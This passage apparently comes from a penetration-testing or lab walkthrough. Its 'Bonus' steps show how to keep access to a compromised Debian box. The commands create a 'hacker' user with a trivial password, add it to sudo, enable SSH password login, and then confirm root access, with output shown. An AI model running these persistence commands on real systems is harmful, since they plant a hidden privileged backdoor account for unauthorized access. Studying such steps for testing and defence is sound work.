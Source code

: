 Success!

## Bonus

11) Let's set up a new OS user so we can get back in the box via the SSH server on 22/tcp...

```
sudo useradd -m hacker  
echo hacker:hacker | sudo chpasswd
sudo usermod -aG sudo hacker
echo PasswordAuthentication yes >> /etc/ssh/sshd_config
sudo systemctl restart ssh
```

```
sudo systemctl status ssh
? ssh.service - OpenBSD Secure Shell server
     Loaded: loaded (/lib/systemd/system/ssh.service; enabled; vendor preset: enabled)
     Active: active (running) since Mon 2024-02-26 00:31:05 EST; 5s ago
       Docs: man:sshd(8)
             man:sshd_config(5)
    Process: 1102 ExecStartPre=/usr/sbin/sshd -t (code=exited, status=0/SUCCESS)
   Main PID: 1104 (sshd)
      Tasks: 1 (limit: 2322)
     Memory: 1.0M
        CPU: 14ms
     CGroup: /system.slice/ssh.service
             ??1104 sshd: /usr/sbin/sshd -D [listener] 0 of 10-100 startups

Feb 26 00:31:05 debian systemd[1]: Starting OpenBSD Secure Shell server...
Feb 26 00:31:05 debian sshd[1104]: Server listening on 0.0.0.0 port 22.
Feb 26 00:31:05 debian sshd[1104]: Server listening on :: port 22.
Feb 26 00:31:05 debian systemd[1]: Started OpenBSD Secure Shell server.
```

12) Now let's try it

```
??$ ssh hacker@target
hacker@target's password: 
Linux debian 5.10.0-23-amd64 #1 SMP Debian 5.10.179-1 (2023-05-12) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Feb 25 23:54:37 2024 from 192.168.49.51
$ whoami
hacker
$ sudo whoami
[sudo] password for hacker: 
root
```

Success!

